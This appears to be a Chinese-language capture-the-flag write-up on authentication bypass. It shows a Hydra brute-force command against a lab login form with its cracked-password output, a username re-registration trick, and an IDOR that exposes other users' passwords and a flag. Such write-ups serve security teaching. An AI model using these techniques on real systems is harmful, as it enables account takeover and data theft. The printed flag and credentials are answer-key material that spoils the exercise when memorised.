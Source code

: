 ## task2 字典攻擊
mike
```
┌──(root💀kali)-[~]
└─# hydra -l mike -P /usr/share/wordlists/rockyou.txt "http-post-form://10.10.230.48:8888/login:user=^USER^&password=^PASS^:Invalid" -t 64
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-30 09:57:23
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking http-post-form://10.10.230.48:8888/login:user=^USER^&password=^PASS^:Invalid
[8888][http-post-form] host: 10.10.230.48   login: mike   password: 12345
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-30 09:57:49
```
## task3 重新註冊
多時候發生的情況是開發人員忘記清理用戶在其應用程序代碼中提供的輸入（用戶名和密碼），這可能使他們容易受到 SQL 注入之類的攻擊，但 SQLi 可能有點難以利用。因此，我們將重點關注由於開發人員的錯誤而發生但很容易被利用的漏洞，即重新註冊現有用戶。

讓我們通過一個例子來理解這一點，假設有一個名為admin的現有用戶，現在我們想要訪問他們的帳戶，所以我們可以做的是嘗試重新註冊該用戶名，但稍作修改。我們要輸入“admin”（注意開頭的空格）。現在，當您在用戶名字段中輸入該信息並輸入其他必需信息（如電子郵件 ID 或密碼）並提交該數據時。它實際上會註冊一個新用戶，但該用戶將擁有與普通管理員相同的權限。並且該新用戶還將能夠看到用戶admin下存在的所有內容。

## task4
JSON Web Token（JWT）是一種常用的授權方式。這是一種使用 HMAC 散列或公鑰/私鑰生成的 cookie。因此，與任何其他類型的 cookie 不同，它讓網站知道當前登錄的用戶擁有什麼樣的訪問權限。JWT 唯一的特別之處在於它們是 JSON 格式（解碼後）。



## task5 
```
我們在網站上看到，當我們註冊用戶並使用我們的憑據登錄時，我們會得到一個特定的 id，它要么完全是數字，要么以數字結尾。大多數情況下，開發人員會保護他們的應用程序，但有時在某些地方，只需更改該數字，我們就可以看到一些隱藏或私人數據。
```
註冊 登陸後            
http://10.10.230.48:7777/users/1?                       
改成         
http://10.10.230.48:7777/users/2? 
```
Hello admin!
Your password:
rootadmin
Your secret data:
I am the admin of this website.
```
http://10.10.230.48:7777/users/0?
```
Hello superadmin!
Your password:
abcd1234
Your secret data:
Here's your flag: 72102933396288983011
```
